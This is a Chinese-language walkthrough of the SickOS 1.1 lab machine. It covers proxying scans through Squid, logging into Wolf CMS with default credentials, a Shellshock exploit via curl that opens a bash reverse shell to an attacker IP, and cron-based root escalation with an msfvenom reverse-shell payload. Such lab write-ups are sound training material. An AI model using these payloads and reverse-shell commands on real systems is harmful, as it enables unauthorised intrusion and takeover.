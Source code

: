 # SickOS 1.1(X)

## namp扫描分析

![alt text](img/image.png)  

## squid代理分析

squid是一个代理软件，直接访问3128端口无效
我们需要通过代理访问，如图
![alt text](img/image-1.png)  
然后可以访问80端口  
同时，扫描时也需要通过代理参数扫描，dirb、nikto等

```
dirb http://10.10.10.19 -p http://10.10.10.19:3128  

nikto -h 10.10.10.19 -useproxy http://10.10.10.19:3128
```

![alt text](img/image-3.png)  
![alt text](img/image-6.png)  

## web渗透

### 方法1

当我们可以访问robots.txt时，可以发现wolfcms路径，这是一个wolf cms，  
cms的渗透思路就是，找管理员后台  
然后默认密码，弱口令尝试，或者通过cms版本漏洞进行利用  
当我们进入主页面时可以看到url是这样的  
![alt text](img/image-4.png)  
与常规的url不一样，有? 然后我们通过google找到的管理员后台也有问号，以此知道  

```
10.10.10.19/wolfcms/?/admin/login
```

然后就是看这个cms是否开源，是否有默认密码，然后在admin:admin成功登录  
进入后台之后有很多利用点，执行php代码，文件上传等能够获得webshell  

### 方法2

我们从nikto的结果来看可以看到/cgi-bin/status有shellshock漏洞  
接下来可以用curl验证shellshock漏洞，注意ua头冒号后面有两个空格  

```
User-Agent:  () { :; };echo Content-Type: text/plain; echo; /bin/ls;
```

反弹shell，这个shellshock一般存在cgi接口处，原理就不解释了  

```
curl -v --proxy http://10.10.10.19:3128 http://10.10.10.19/cgi-bin/status  
-H "User-Agent:  () { :; };/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/8888 0>&1';"
```

## 提权

### 方法1

在获得初始shell之后，我们进行一系列基本操作之后，我们可以发现web目录下的config.php  
![alt text](img/image-5.png)  
里面有数据库连接凭据，这当然不会直接是root的密码，我们可以用这个密码尝试其他用户  
然后我们能够登录sickos用户，并且sudo su能够直接提权  

### 方法2

在web目录下可以看到一个777的py文件  
![alt text](img/image-7.png)  
同时我们在/etc/cron.d/automate文件里看到了这个文件将以root身份执行  
![alt text](img/image-8.png)  
在这里我们就了解到任务计划不只是在/etc/crontab文件里  
我们可以用msfvenom生成一句反弹shell的话，如下  

```
msfvenom -f cmd/unix/reverse_python lhost=10.10.10.10 lport=6666 -f raw
```
然后我又发现了一个在线网站

```
https://www.revshells.com/
```
开启监听，等待即可root

## 总结

方法1这个提权不是难度，但如果是初次接触代理，可能就没法进行下一步。  
方法2则是寻找任务计划程序，不是那么容易，不过我们找到能够特殊的py文件之后  
应该可以想到，然后再去寻找任务计划文件，还有就是msfvenom生成反弹shell语句。  

